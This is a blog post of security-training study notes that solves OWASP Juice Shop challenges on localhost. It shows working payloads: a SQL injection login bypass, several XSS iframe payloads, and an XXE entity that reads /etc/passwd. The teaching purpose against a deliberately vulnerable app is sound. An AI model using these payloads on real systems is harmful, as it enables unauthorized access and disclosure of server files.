 ```yaml
---
layout:            post
title:             Security Training Day 2
date:              2019-01-23 20:41:20 +0100
categories:        [tech]
tags:              [security, http, browser]
comments:          true
excerpt:           >
    My study notes of security training (day 2), including some ways of SQL
    injection, Cross-site scripting (XSS), and XML External Entity (XXE).
image:             /assets/bg-security-265130_1280.jpg
img_width:         1280
img_height:        853
---
```


## Overview

This post is mainly a review of what have been taught during the security
training in day 2. In aims to share knowledge and make us aware of the
importance of security. After reading this article, you will understand:

- SQL Injection
- XSS: Cross-Site Scripting
- XXE: XML External Entity

Reminder: the security tools used here are [ZAP
Proxy](https://github.com/zaproxy/zaproxy) and [Juice
Shop](https://github.com/bkimminich/juice-shop) -- probably the most modern and
sophisticated insecure web application.

## SQL Injection

A [SQL injection attack](https://www.owasp.org/index.php/SQL_Injection)
consists of insertion or "injection" of a SQL query via the input data from the
client to the application. A successful SQL injection exploit can read
sensitive data from the database, modify database data (Insert/Update/Delete),
execute administration operations on the database (such as shutdown the DBMS),
recover the content of a given file present on the DBMS file system and in some
cases issue commands to the operating system. SQL injection attacks are a type
of injection attack, in which SQL commands are injected into data-plane input
in order to effect the execution of predefined SQL commands. This section solves
SQL Injection challenge in Juice Shop.

**Login Admin.** Log in with the administrator's user account. Firstly, go to
login page <http://localhost:3000/#/login>, enter an arbitrary login and
password, such as `foo@example.com` and `123`. UI shows "Invalid user or
password". Now, inspect HTTP request and response in ZAP Proxy where the url of
the entry is <http://localhost:3000/rest/user/login>. Open request editor and
edit the request body (excerpt 1). By the way, we can also imagine the SQL
query should be similar to the following form (excerpt 2).

```json
{
  "email" : "foo@example.com",
  "password" : "123"
}
```

```sql
SELECT *
  FROM Users
 WHERE email='foo@example.com' AND pass='123'
```

The SQL injection can be done as the first query parameter `email`. Use simple
quote `'` to end the quote (just in case), use criterion `OR 1=1` to ensure the
WHERE clause is always true and does not depend on email value, and use comment
`--` to comment the rest of the query. So the modification and expected SQL
looks like the following:

```json
{
  "email" : "' OR 1=1; --",
  "password" : "123"
}
```

```sql
SELECT *
  FROM Users
 WHERE email='' OR 1=1; -- ' AND pass='123'
```

The response returns the email of admin account with the correct token:

```json
{
  "authentication" : {
    "token" : "eyJhbG...",
    "bid" : 1,
    "umail" : "admin@juice-sh.op"
  }
}
```

Understand the usage of token `eyJhbG...` by inspecting the source code of
`main.js`, and finds out that user token will be saved in browser's local
storage after login action:

```js
this.userService.login(this.user).subscribe(function (n) {
  localStorage.setItem('token', n.token),
  l.cookieService.put('token', n.token),
  sessionStorage.setItem('bid', n.bid),
  l.userService.isLoggedIn.next(!0),
  l.router.navigate(['/search'])
}, function (n) { ... }
```

Therefore, we can set token to local storage manually to be able to simulate the
login action in browser console. After that, the login is successful as
expected.

```js
localStorage.setItem('token', 'eyJhbG...');
```

## Cross-Site Scripting (XSS)

[Cross-Site Scripting
(XSS)](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)) attacks are
a type of injection, in which malicious
scripts are injected into otherwise benign and trusted websites. XSS attacks
occur when an attacker uses a web application to send malicious code, generally
in the form of a browser side script, to a different end user. Flaws that allow
these attacks to succeed are quite widespread and occur anywhere a web
application uses input from a user within the output it generates without
validating or encoding it. There're 3 types of XSS:

- Reflected XSS
- Persisted XSS
- DOM Based XSS

Different XSS filter can be found at [OWASP - XSS Filter Evasion
CheatSheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet).
This section solves different XSS challenges in Juice Shop.

**XSS Tier 0.** Perform a reflected XSS attack with
``<iframe src="javascript:alert(`xss`)">``. This can be done by providing a
malicious query parameter Order ID (`id`) in Track Result module
<http://localhost:3000/#/track-result?id=myOrder>. Using the following query
param will trigger a reflected XSS (value is url-encoded):

    http://localhost:3000/#/track-result?id=%3Ciframe%20src%3D%22javascript:alert(%60xss%60)%22%3E

**XSS Tier 1**. Perform a DOM XSS attack with
``<iframe src="javascript:alert(`xss`)">``. This can be done by manipulating the
query param `q` in "search" module (<http://localhost:3000/#/search?q=apple>).
The result is not escaped, which leads to XSS.

<p align="center">
  <img src="/assets/20190123-xss-1.png"
       alt="XSS Tier 1">
</p>

**XSS Tier 2.** Perform a persisted XSS attack with
``<iframe src="javascript:alert(`xss`)">`` bypassing a client-side security
mechanism. This can be done by manipulating the user creation form. Go to
register page <http://localhost:3000/#/register> and enter username / password
as `foo@example.com` and `12345`. Then, modify the HTTP request in ZAP Proxy and
resend the request to server:

```json
{
  "email" : "foo@example.com<iframe src=\"javascript:alert(`xss`)\">",
  "password" : "12345",
  "passwordRepeat" : "12345",
  "securityQuestion" : {
    "id" : 1,
    "question" : "Your eldest siblings middle name?",
    "createdAt" : "2019-01-23T19:56:54.665Z",
    "updatedAt" : "2019-01-23T19:56:54.665Z"
  },
  "securityAnswer" : "12345"
}
```

When internal users visit the admin page
<http://localhost:3000/#/administration>, an XSS will be triggered.

## XML External Entity (XXE) Processing

An [XML External Entity attack][1] is a type of attack against an application
that parses XML input. This attack occurs when XML input containing a reference
to an external entity is processed by a weakly configured XML parser. This
attack may lead to the disclosure of confidential data, denial of service,
server side request forgery, port scanning from the perspective of the machine
where the parser is located, and other system impacts. This section solves XXE
challenge in Juice Shop.

**XXE Tier 1.** Retrieve the content of `C:\Windows\system.ini` or `/etc/passwd`
from the server. First of all, we need to feed an entry-point for uploading
files, so that our XML file can be read by the server. One possibility is via
Customer Complain <http://localhost:3000/#/complain>, where a file can be
uploaded. By default, the input element only accepts file types `.pdf` and
`.zip`. This check can be skipped by choosing format option "All Support Types"
when browsing files (maybe different according to OS, I'm using macOS).

```html
<input _ngcontent-c17=""
       accept=".pdf,.zip"
       id="file"
       ng2fileselect=""
       type="file">
```

Then, choose a file to upload. For example, `~/feedback.xml`:

```xml
<msg>hi</msg>
```

Once uploaded, find out the server response and check if it reads the value.
From the response of <http://localhost:3000/file-upload>, we can extract the
following value:

> Error: B2B customer complaints via file upload have been deprecated for security reasons: &lt;?xml version=&quot;1.0&quot; encoding=&quot;UTF-8&quot;?&gt;&lt;msg&gt;Hi&lt;/msg&gt; (feedback.xml)

As you can see, the content of feedback has been extracted successfully. Further
more, the content has been expanded: XML header has been added. We can suppose
that XXE is possible in this case. Now, change the content of XML to the
following, where system entity `xxe` is defined and discloses the system
password file:

```xml
<!DOCTYPE msg [
<!ELEMENT msg ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<msg>&xxe;</msg>
```

Upload the same file again with the new content, then inspect the HTTP response
again:

> Error: B2B customer complaints via file upload have been deprecated for security reasons: &lt;?xml version=&quot;1.0&quot; encoding=&quot;UTF-8&quot;?&gt;&lt;!DOCTYPE msg [&lt;!ELEMENT msg ANY&gt;&lt;!ENTITY xxe SYSTEM &quot;file:///etc/passwd&quot;&gt;]&gt;&lt;msg&gt;### User Database# # Note that this file is consulted directly only when the sys... (feedback.xml)

The content is retrieved successfully.

## Conclusion

In this article, we saw the definition and challenges of three common security
problems: SQL Injection, Cross-Site Scripting (XSS) and XML External Entity
(XXE) processing. Through these challenges, we saw the impact of security
problems. Hope you enjoy this article, see you the next time!

[1]: https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing
